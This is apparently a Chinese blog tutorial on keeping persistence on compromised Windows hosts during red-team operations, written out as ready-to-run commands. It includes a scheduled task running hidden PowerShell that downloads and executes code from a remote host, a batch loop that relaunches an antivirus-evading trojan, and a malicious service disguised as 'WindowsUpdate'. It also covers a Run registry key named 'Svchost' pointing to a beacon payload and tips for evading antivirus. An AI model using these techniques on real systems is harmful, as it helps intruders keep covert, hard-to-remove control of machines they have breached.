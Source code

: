 **目录**

[定时任务](#t0 "定时任务")

[创建隐蔽账号](#t1 "创建隐蔽账号")

[进程迁移](#t2 "进程迁移")

[启动目录](#t3 "启动目录")

[注册服务自启(报毒)](#t4 "注册服务自启(报毒)")

[修改注册表实现自启动](#t5 "修改注册表实现自启动")

* * *

在红蓝对抗实战中，当我们获取到一台Windows主机的权限后，首先要做的就是怎么维持住该权限。因为防守方的实力也在不断增强，并且他们的流量监测设备也在不断监控，如果发现机器被植入[木马](https://so.csdn.net/so/search?q=%E6%9C%A8%E9%A9%AC&spm=1001.2101.3001.7020)，他们肯定会采取措施。

比如采取以下几点措施：

*   查杀木马进程
*   重启主机
*   断网
*   关闭主机

而对于我们维持权限，可以有以下几点：

### 定时任务

使用 schtasks 命令创建定时任务

```
在目标主机上创建一个名为test的计划任务，启动程序为C:\vps.exe，启动权限为system，启动时间为每隔一小时启动一次。当执行完该命令，该计划任务就已经启动了      
schtasks /create /tn test /sc HOURLY /mo 1 /tr c:\vps.exe /ru system /f       
其他启动时间参数：      
/sc onlogon  用户登录时启动      
/sc onstart  系统启动时启动      
/sc onidle   系统空闲时启动       
但是如果是powershell命令的话，执行完下面的命令，还需要执行启动该计划任务的命令      1
schtasks /create /tn test /sc HOURLY /mo 1 /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring(''http://xx.xx.xx.xx'''))'" /ru system /f       1
查询该test计划任务      1
schtasks /query | findstr test       1
启动该test计划任务      1
schtasks /run /i /tn "test"       1
删除该test计划任务      1
schtasks /delete /tn "test" /f
```


如果当期用户权限是普通权限那么 /ru 参数为 %USERNAME%。

![](https://img-blog.csdnimg.cn/20200929212914449.png)

如果是管理员权限，可以指定为 system。 

![](https://img-blog.csdnimg.cn/20200929213556927.png)

但是如果目标主机有杀软的话会报毒

![](https://img-blog.csdnimg.cn/2020092921251782.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

所以，要想绕过杀入软件创建计划任务的话，有这么一个思路。利用VBS脚本创建计划任务，然后执行该VBS脚本即可。实测不报毒。

![](https://img-blog.csdnimg.cn/20200929220550739.png)

传送门： [Windows中的计划任务(schtasks)](https://xie1997.blog.csdn.net/article/details/83068430#Windows%E4%B8%AD%E7%9A%84%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1%28schtasks%29 "Windows中的计划任务(schtasks)")

### 创建隐蔽账号

如果目标主机的3389端口开放着，则我们可以创建隐蔽账号。

或者读取该主机administrator账号密码，使用impacket工具包登录(需要目标主机开启445端口)。

![](https://img-blog.csdnimg.cn/2020052822045018.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

注意，如果目标主机上有杀软的话，创建新用户杀软会有安全提示的。

![](https://img-blog.csdnimg.cn/20200528220549612.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 进程迁移

针对查杀木马进程这个措施，我们可以将木马进程迁移到系统正常的进程当中

![](https://img-blog.csdnimg.cn/20190812153718971.png)

对于查杀木马进程，我们还有一种解决办法，设置CMD定时脚本，创建隐蔽账号，登录创建的账号执行该脚本：

这个bat脚本的代码如下。我们将免杀马放在 c:\\windows\\temp 目录下，免杀马的名字改为 run.exe 

```
 @echo off        
 set INTERVAL=120      
 :Again        
 echo start server      
 C:      
 cd C:\windows\temp      
 start run.exe      
 timeout %INTERVAL%      
 goto Again
```


![](https://img-blog.csdnimg.cn/2020052822200062.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

然后运行这个脚本，这个脚本会每隔2分钟(120秒)执行免杀木马。

![](https://img-blog.csdnimg.cn/20200528222016590.png)

在实战中我们的利用思路是，在目标机器上创建新用户，然后在新用户下执行该bat脚本。实战中我们可以将120秒的时间适当延长，免杀马的名字也可以修改为更具有迷惑性的名字。这样，如果防守方只是杀掉了免杀马的进程，而没有杀掉我们的这个bat脚本的cmd.exe进程的话，我们的这个bat脚本还会定时执行免杀马的。

注意：执行该脚本需要远程桌面双击执行，不能直接在CobaltStrike中使用命令行执行

![](https://img-blog.csdnimg.cn/20200528222037593.png)

### 启动目录

针对重启主机，我们可以将木马放入系统的启动目录当中

```
C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```


![](https://img-blog.csdnimg.cn/20200528221050241.png)

注意，如果目标主机上有杀软的话，将木马放入启动目录杀软会有安全提示的。

![](https://img-blog.csdnimg.cn/20200528221029932.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 注册服务自启(报毒)

```
注册服务      
sc create "WindowsUpdate" binpath= "cmd /c start "C:\Users\Administrator\Desktop\beacon.exe""&&sc config "WindowsUpdate" start= auto&&net start  WindowsUpdate      
查询服务      
sc query WindowsUpdate      
删除服务      
sc delete WindowsUpdate
```


![](https://img-blog.csdnimg.cn/20210114125052997.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 ![](https://img-blog.csdnimg.cn/20210114125243575.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

### 修改注册表实现自启动

**命令行操作**

```
添加注册表启动项      
reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v Svchost /t REG_SZ /d "C:\windows\temp\test\beacon.exe " /f       
查询注册表启动项      
reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run /v Svchost      
删除注册表启动项      
reg delete HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run /v Svchost /f
```


![](https://img-blog.csdnimg.cn/20210114124856753.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

 **图形化操作**

打开注册表 HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run

![](https://img-blog.csdnimg.cn/20200701153454127.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

右键  新建(N) ——> 字符串值(S)

![](https://img-blog.csdnimg.cn/20200701153639231.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200701153728981.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200701153806476.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

目标计算机重新启动后，我们即可以收到弹回来的shell

![](https://img-blog.csdnimg.cn/20200701153932220.png)

本文中的相关功能我已经集成在CS插件中，链接：[https://t.zsxq.com/7MnIAM7](https://t.zsxq.com/7MnIAM7 "https://t.zsxq.com/7MnIAM7")

![](https://img-blog.csdnimg.cn/20210426113346534.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

相关文章：[使用reg管理注册表](https://xie1997.blog.csdn.net/article/details/112177550 "使用reg管理注册表")

 如果想跟我一起讨论的话，就快加入我的知识星球吧。星球里有一千多位同样爱好安全技术的小伙伴一起交流！[知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具](https://wx.zsxq.com/dweb2/index/group/88514121251242 "知识星球 | 深度连接铁杆粉丝，运营高品质社群，知识变现的工具")

![](https://img-blog.csdnimg.cn/1219ed79e9ed449d85d27b732cda5ea6.jpg)

文章知识点与官方知识档案匹配，可进一步学习相关知识

[CS入门技能树](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[Linux入门](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)[初识Linux](https://edu.csdn.net/skill/gml/gml-1c31834f07b04bcc9c5dff5baaa6680c)11176 人正在系统学习中